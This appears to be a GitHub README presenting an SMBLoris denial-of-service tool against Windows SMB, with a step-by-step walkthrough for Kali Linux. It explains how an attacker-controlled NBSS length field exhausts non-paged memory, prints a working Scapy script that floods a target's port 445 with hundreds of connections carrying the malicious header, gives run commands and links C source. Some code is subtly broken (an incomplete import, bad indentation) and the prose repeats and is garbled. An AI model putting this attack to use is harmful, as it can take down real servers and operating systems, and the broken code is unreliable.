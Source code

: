 # what IS the Smb !! 
Me sharing files remotely by Protocol SMBv1 Or SMBv2 SMBv3 
-------------------------
vulnerable On Next in Text from i,am 
The vulnerability is in all modern versions of Windows, at least from Windows 2000 through Windows 10. Systems are still vulnerable even if all versions of SMBv1 SMBv2 SMBv3 are disabled

It is computationally inexpensive for an attacker to cause large memory allocations and enormous amounts of wasted CPU cycles†, rendering vulnerable machines completely unusable, making business-critical services (such as web and mail servers) unavailable, and even causing the entire operating system to crash !!
''''''''''
And Windows immediately commits in memory a number of bytes determined by the attacker-controlled Length field, which is 217 for a max of 131,072 bytes (128 KiB). This memory is in the "non-paged pool" (physical RAM) which cannot be swapped out to disk, making the denial of service even more effective. CPU and memory resources are effectively lost for as long as the connection is sustained

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

SMBLoris works over IPv4 and IPv6, and acquiring multiple IPs on a LAN can amplify the attack. The amount of machines required to perform a distributed denial of service (DDoS) attack against more powerful servers is also significantly reduced.


# But by me files
1 rest.sh 

2 run.sh  

3 smb3.py 

Works only on Kali version 2 #
Or
SMBLoris.c 

Normal Works on All systems Linux !! Redhat kali And And And And Etc!!

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

1 >_  Now we use smb3.py 

2 >_ Now we go to run rest.sh

![screenshot from 2017-08-09 19-19-12](https://user-images.githubusercontent.com/25440152/29142117-de3c8ec2-7d1e-11e7-8144-20261cf78916.png)
# Next >_ let's go To arrange
Edit Code file smb3.py 
```
from scapy.all import
import sys

    p0 = int(sys.argv[1])

    conf.L3socket
    conf.L3socket=L3RawSocket

    i = IP()
    i.dst = "192.168.1.4"
    t = TCP()
    t.dport = 445

    for p in range(p0, p0+700):
      print p
      t.sport = p
      t.flags = "S"

      r = sr1(i/t)
      rt = r[TCP]
      t.ack = rt.seq + 1
      t.seq = rt.ack
      t.flags = "A"
      sbss = '\x00\x01\xff\xff'
      send(i/t/sbss)

```
------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

! >_  let's go To Run run.sh After we have arranged file smb3.py 


```
root@kali:~/Desktop# chmod +x run.sh

root@kali:~/Desktop#./run.sh
```

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

Now let's go To Run file SMBLoris.c

https://gist.github.com/jihadLkmaty218/72440aa47ec1852fd806efaf3752c52d

>_  After the download file let's go To Run

![screenshot from 2017-08-09 19-44-22](https://user-images.githubusercontent.com/25440152/29143202-50fe7d0a-7d22-11e7-9cda-7307c6cdb0a3.png)

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

![screenshot from 2017-08-09 19-44-48](https://user-images.githubusercontent.com/25440152/29143208-53a592dc-7d22-11e7-892e-b3a20fef0ce2.png)

The attack has similarities to Slowloris denial of service attacks that target web servers. Loris attacks occur when a single machine is able to open many connections to a server, maliciously using up extensive resources with minimal attack cost.

While Slowloris temporarily takes down a web server, SMBLoris can completely take down the entire operating system.
What are the technical details?

The NetBIOS Session Service (NBSS) header is the initial TCP data transmitted to start an SMB session, and is processed before any authentication mechanism is ever established. It occupies 4 bytes of memory
Windows immediately commits in memory a number of bytes determined by the attacker-controlled Length field, which is 217 for a max of 131,072 bytes (128 KiB). This memory is in the "non-paged pool" (physical RAM) which cannot be swapped out to disk, making the denial of service even more effective. CPU and memory resources are effectively lost for as long as the connection is sustained.

------------------------------------------------------------------------------------------------------||
------------------------------------------------------------------------------------------------------||

SMBLoris works over IPv4 and IPv6, and acquiring multiple IPs on a LAN can amplify the attack. The amount of machines required to perform a distributed denial of service (DDoS) attack against more powerful servers is also significantly reduced

